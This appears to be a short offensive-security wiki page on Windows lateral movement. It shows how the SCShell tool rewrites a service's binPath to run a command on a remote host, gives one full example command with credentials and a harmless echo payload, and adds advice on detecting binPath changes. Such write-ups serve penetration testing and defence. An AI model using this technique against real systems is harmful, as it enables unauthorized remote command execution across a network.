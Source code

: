 # Lateral Movement Abusing Service Configuration Manager

It's possible to execute commands on a remote host by abusing service configuration manager by changing the service binpath to your malicious command and restarting the service so your payload gets executed - this is all automated by a nice tool [SCShell](https://github.com/Mr-Un1k0d3r/SCShell)

## Execution

Scshell expects the following arguments: target, service, payload, username, domain, password:

{% tabs %}
{% tab title="attacker@target" %}
```text
.\scshell.exe ws01 XblAuthManager "C:\windows\system32\cmd.exe /c echo 'lateral hello' > c:\temp\lat.txt" spotless offense 123456
```
{% endtab %}
{% endtabs %}

![](../../.gitbook/assets/scshell.gif)

## Considerations

From the defensive side, you may want to consider about monitoring services that change their binPaths "too often" as this may not be normal in your environment, especially if the binPath is "very" different \([Levenshtein](https://www.google.com/search?q=levenshtein+distance&oq=levensht&aqs=chrome.1.69i57j0l5.2647j0j7&sourceid=chrome&ie=UTF-8)\) to the previously known good value and if the service configuration is being changed over the network:

![](../../.gitbook/assets/image%20%28281%29.png)

## References

{% embed url="https://github.com/Mr-Un1k0d3r/SCShell" %}

